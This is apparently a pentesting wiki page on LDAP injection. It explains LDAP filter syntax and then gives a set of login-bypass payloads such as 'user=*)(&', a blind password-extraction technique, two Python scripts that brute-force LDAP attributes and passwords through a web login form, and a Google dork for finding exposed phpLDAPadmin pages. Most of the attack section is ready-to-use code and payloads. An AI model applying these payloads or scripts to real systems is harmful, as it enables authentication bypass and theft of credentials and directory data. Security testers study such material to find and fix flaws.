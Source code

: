 # LDAP Injection

## **LDAP**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

**Ports 389 y 636**

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filter** = \( filtercomp \)  
**Filtercomp** = and / or / not / item  
**And** = & filterlist  
**Or** = \|filterlist  
**Not** = ! filter  
**Filterlist** = 1\*filter  
**Item**= simple / present / substring  
**Simple** = attr filtertype assertionvalue  
**Filtertype** = _'=' / '~=' / '&gt;=' / '&lt;='_  
**Present** = attr = \*  
**Substring** = attr ”=” \[initial\] \* \[final\]  
**Initial** = assertionvalue  
**Final** = assertionvalue  
**\(&\)** = Absolute TRUE  
**\(\|\)** = Absolute FALSE

For example:  
\(&\(!\(objectClass=Impresoras\)\)\(uid=s\*\)\)  
\(&\(objectClass=user\)\(uid=\*\)\)

You can access to the database, and this can content information of a lot of different types.

The backups of LDAP uses the extension _ldif_

**OpenLDAP**: If 2 filters arrive, only executes the first one.  
**ADAM or Microsoft LDS**: With 2 filters they throw an error.  
**SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: _&_ or _\|_  
Example: _\(&\(directory=val1\)\(folder=public\)\)_

\(&\(objectClass=VALUE1\)\(type=Epson\*\)\)  
VALUE1 = _\*\)\(ObjectClass=\*\)\)\(&\(objectClass=void_

Then: _\(&\(objectClass=**\*\)\(ObjectClass=\*\)\)**_ will be the first filter \(the one executed\).

## Login Bypass

LDAP supports several formats to store the password: clear, md5, smd5, sh1, ssha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.

```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSO then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

[LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt)  
[LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)  
[LDAP\_authBypass](https://feelsec.info/wp-content/uploads/2018/11/LDAP_authBypass.txt)

## Blind LDAP Injection

You can iterate over the ascii letters, digits and symbols:

```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```

## Scripts

### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of **\*\*\[**default LDAP attributes here**\]\(**[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP Injection/Intruder/LDAP\_attributes.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)**\)**.\*\*

```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break

            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```

### **Special Blind LDAP Injection \(without "\*"\)**

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks

```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)


